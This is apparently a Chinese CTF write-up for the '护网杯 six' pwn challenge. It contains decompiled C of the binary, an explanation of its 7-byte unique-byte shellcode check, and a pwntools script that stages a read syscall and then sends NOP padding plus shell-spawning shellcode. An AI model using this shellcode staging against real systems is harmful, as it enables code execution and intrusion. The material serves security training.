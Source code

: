 ```yaml
---
layout:     post
title:      护网杯six题解
subtitle:    护网杯six
date:       2018-12-27
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - 安全
---
```



> six


# six

源码如图


```c

int __cdecl main(int argc, const char **argv, const char **envp)
{
  void (__fastcall *v3)(__int64, char *);  // ST08_8@1
  
  size_t v4; // rax@1
  
  char *v5; // rbx@1
  
  size_t v6; // rax@1
  
  int result; // eax@1
  
  __int64 v8; // rcx@1
  
  char s; // [sp+10h] [bp-20h]@1
  
  __int64 v10; // [sp+18h] [bp-18h]@1
  
  v10 = *MK_FP(__FS__, 40LL);
  mmap2();                                      // 分配两块地址 
  
                                                // dest可执行 
                                                
                                                // fake_stack可写可读 
                                                
  v3 = dest;                                    // dest地址赋值给v3 
  
  memset(&s, 0, 8uLL);
  puts("Show me your shellcode:");
  read(0, &s, 7uLL);
  check(&s, &s);
  v4 = strlen(src);
  memcpy(dest, src, v4);                        // src传到第一块内存中 
  
  v5 = dest;
  v6 = strlen(src);
  memcpy(&v5[v6], &s, 7uLL);                    // 将用户的输入传到src之后 
  
  v3(fake_stack, &s);                           // v3即调用我们的dest函数，参数为fake_stack 
  
  result = 0;
  v8 = *MK_FP(__FS__, 40LL) ^ v10;
  return result;
}

__int64 mmap2()
{
  int fd; // ST04_4@1
  
  __int64 buf; // [sp+8h] [bp-18h]@1 //buf低地址
  
  __int64 v3; // [sp+10h] [bp-10h]@1 //v3高地址
  
  __int64 v4; // [sp+18h] [bp-8h]@1

  v4 = *MK_FP(__FS__, 40LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  fd = open("/dev/urandom", 0);
  read(fd, &buf, 6uLL);
  read(fd, &v3, 6uLL);
  dest = mmap((v3 & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 7, 34, -1, 0LL);  // dest可执行 
  
  fake_stack = mmap((buf & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 3, 34, -1, 0LL) + 1280;
  return *MK_FP(__FS__, 40LL) ^ v4;
}

__int64 __fastcall check(__int64 a1)
{
  __int64 result;   // rax@2
  
  signed int i; // [sp+18h] [bp-8h]@1
  
  int j; // [sp+1Ch] [bp-4h]@2

  for ( i = 0; i <= 6; ++i )
  {
    result = (i + 1);
    for ( j = i + 1; j <= 6; ++j )
    {
      result = *(j + a1);
      if ( *(i + a1) == result )
      {
        puts("Invalid shellcode!");
        exit(0);
      }
    }
  }
  return result;
}

```



其中check函数是用来检测我们写的shellcode是不是每个字节相同的。

对于src即我们的shellcode之前的那一段代码，

因为具有可执行性所以我们的代码是

![1545912100040](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/six.png)

把所有的寄存器都设为了0，并且把rsp指向了第二块申请内存的地址

所以这题的思路是，由于src将各寄存器都置0了，我们可以利用0号系统调用read输入进行第二次的shellcode输入，输入位置可以是rsp栈顶，rax=0表示0号调用read,rdi=0表示标准输入，rsi可以设置为rsp，表示输入到栈顶，rdx表示输入字节大小，这个不固定，只要能过judge就行。然后通过read输入shellcode覆盖这两块内存空间，直到覆盖过rip，最后在尾部加上调用shell的shellcode即可。这里我用nop填充。

最后脚本为

```python

from pwn import *
context(os="linux",arch="amd64",log_level="debug",endian="little")
context.terminal = ['tmux', 'split', '-h']
sh = process("./seven")
#gdb.attach(sh,"b read")
sh.recvuntil("Show me your shellcode:")

payload1 =asm("push rsp;pop rsi;mov edx,esi;syscall")
sh.sendline(payload1)
nop=asm("nop")
shell= asm(shellcraft.sh())

payload2=nop*0xb36+shell
sh.sendline(payload2)
sh.interactive()

```

至于那个长度b36，可以在调试的时候测试出来。

